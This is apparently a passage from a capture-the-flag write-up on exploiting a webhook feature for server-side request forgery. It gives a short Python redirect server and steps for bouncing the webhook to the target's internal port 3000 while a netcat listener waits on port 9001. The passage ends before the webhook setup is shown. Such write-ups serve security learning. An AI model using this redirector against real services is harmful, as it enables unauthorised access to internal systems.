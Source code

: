 >Webhooks are generally automated calls made from one application to another, triggered whenever a specific event occurs
>a.k.a "user generatered callbacks"

To abuse this we will create a webhook test that send request to our local setup service. it has a redirect funtionality to redirect it's own localhost through port 3000 we found filtered in our nmap result and we will receive response on port that we insert in payloadURL of webwook funtionality.


Redirector script that setup on our local machine

redirect.py
```python
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
### webhook SSRF

Run the redirect.py script with argument as target localhost port 3000 and setup the netcat listener on port 9001

![image](/img/setup.png)
we need to configure the webhook request with our configuration